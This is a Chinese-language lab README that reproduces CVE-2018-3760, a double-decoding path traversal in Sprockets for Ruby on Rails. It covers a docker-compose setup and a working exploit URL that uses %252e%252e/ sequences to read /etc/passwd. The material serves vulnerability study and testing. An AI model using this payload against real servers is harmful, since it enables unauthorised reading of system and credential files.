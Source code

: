 # Ruby On Rails 路径穿越漏洞（CVE-2018-3760）

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用`%252e%252e/`来跨越到根目录，读取或执行目标服务器上任意文件。

参考链接：

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## 环境搭建

启动一个用Ruby On Rails脚手架生成的默认站点：

```
docker-compose up -d
```

访问`http://your-ip:3000`即可查看到欢迎页面。

## 漏洞复现

直接访问`http://your-ip:3000/assets/file:%2f%2f/etc/passwd`，将会报错，因为文件`/etc/passwd`不在允许的目录中：

![](1.png)

我们通过报错页面，可以获得允许的目录列表。随便选择其中一个目录，如`/usr/src/blog/app/assets/images`，然后使用`%252e%252e/`向上一层跳转，最后读取`/etc/passwd`：

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![](2.png)
